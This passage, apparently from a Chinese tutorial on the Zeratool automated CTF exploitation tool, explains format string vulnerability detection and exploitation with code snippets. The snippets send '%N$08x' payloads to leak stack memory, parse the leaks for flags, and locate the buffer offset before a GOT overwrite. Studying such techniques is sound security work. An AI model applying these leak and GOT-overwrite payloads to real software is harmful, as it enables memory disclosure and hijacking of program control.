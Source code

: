 ```python
                #设置格式化字符串的值，第 iter_num个值以8位十六进制数显示
                input_string = input_string.replace('_%x','_%{}$08x'.format(iter_num),1)
            proc.sendline(input_string)       # 发送字符串 
            results = proc.recvall(timeout=5)  # 返回信息
```

发送格式化字符串后，通过 `printf` 函数，我们获得输出信息，下一步进行解析，使用 ”_" 作为分割

```python
data_leaks = results.split('_')
data_leaks = [x[0:8] if all([y in string.hexdigits for y in x]) else "" for x in data_leaks]
data_leaks = [''.join([y[x:x+2] for x in range(0, len(y), 2)][::-1]) for y in data_leaks]
try:
    data_copy = data_leaks
    data_leaks = [binascii.unhexlify(x) for x in data_leaks]
```

最后获得完整的输出信息(`full_string`), 如果该字符串中存在 “{” 和 “}” 则说明获得了 flag, 将泄露信息返回

```python
if '{' in full_string and '}' in full_string:  # 判断是否存在 flag
    print("[+] Flag found:")
    leakProperties['flag_found'] = True        # 标志 flag found
leakProperties['leak_string'] = full_string    # 泄露的信息
print("[+] Returned {}".format(full_string))
    return leakProperties
```



以上就是漏洞检测相关内容，接下来我们查看漏洞利用部分。

### 漏洞利用

#### 格式化字符串漏洞

基本利用技巧为修改 got 表项为 shellcode 地址或目标函数。

[formatExploiter.py](https://github.com/ChrisTheCoolHut/Zeratool/blob/d4dda1a017/lib/formatExploiter.py) 

利用思路：

1. 计算格式化字符串的偏移量
2. 通过构造 payload 修改 got 表项目标函数或 shellcode 地址（不考虑 NX 包含）

首先获得格式化字符串缓冲区在栈上偏移，记为 `stack_position`：

```python
 #Determine stack location
for i in range(1, 50):
    iter_string = "aaaa_%{}$08x_".format(i) # 关键 payload,用于探测 buffer的偏移
    iter_string = assembleInput(iter_string,start_slice,end_slice,input_len)
    results = runIteration(binary_name,iter_string,input_type=properties['input_type'])
    if "61616161" in results: # 0x41414141 == "AAAA"
        stack_position = i  # 确定 buffer 的偏移为 i 
        print("[+] Found stack location at {}".format(stack_position))
        break
```
